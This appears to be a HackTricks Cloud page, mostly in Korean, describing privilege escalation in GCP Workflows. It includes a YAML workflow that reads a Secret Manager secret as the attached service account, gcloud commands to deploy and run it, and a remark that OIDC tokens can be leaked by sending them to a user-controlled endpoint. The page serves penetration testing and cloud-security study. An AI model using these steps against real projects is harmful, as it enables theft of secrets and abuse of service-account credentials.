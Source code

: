 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

기본 정보:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

내가 아는 한, Workflow에 연결된 SA 자격 증명을 포함하는 메타데이터 엔드포인트에 접근하여 쉘을 얻는 것은 불가능하다. 그러나 Workflow 내에서 수행할 작업을 추가하여 SA의 권한을 악용하는 것은 가능하다.

커넥터의 문서를 찾는 것이 가능하다. 예를 들어, 이것은 [**Secretmanager 커넥터의 페이지**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** 사이드 바에서 여러 다른 커넥터를 찾을 수 있다.

그리고 여기 비밀을 출력하는 커넥터의 예를 찾을 수 있다:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLI에서 업데이트:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
웹 접근 권한이 없으면 다음을 사용하여 워크플로의 실행을 트리거하고 볼 수 있습니다: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
이전 실행의 출력을 확인하여 민감한 정보를 찾을 수도 있습니다.
{% endhint %}

권한이 없기 때문에 `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...`와 같은 오류가 발생하더라도, 워크플로우는 생성되었습니다.

### OIDC 토큰 유출 (및 OAuth?)

[**문서에 따르면**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) 워크플로우 단계에서 OAuth 또는 OIDC 토큰으로 HTTP 요청을 보낼 수 있습니다. 그러나 [Cloud Scheduler](gcp-cloudscheduler-privesc.md)와 마찬가지로, Oauth 토큰을 포함한 HTTP 요청은 호스트 `.googleapis.com`으로 보내야 합니다.

{% hint style="danger" %}
따라서, **사용자가 제어하는 HTTP 엔드포인트를 지정하여 OIDC 토큰을 유출할 수 있습니다**. 그러나 **OAuth** 토큰을 유출하려면 **그 보호를 우회해야** 합니다. 그러나 여전히 **연결기 또는 OAuth 토큰을 사용한 HTTP 요청을 통해 SA를 대신하여 GCP API에 연락할 수 있습니다.**
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

이 권한을 사용하면 `workflows.workflows.create` 대신 이미 존재하는 워크플로를 업데이트하고 동일한 공격을 수행할 수 있습니다.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
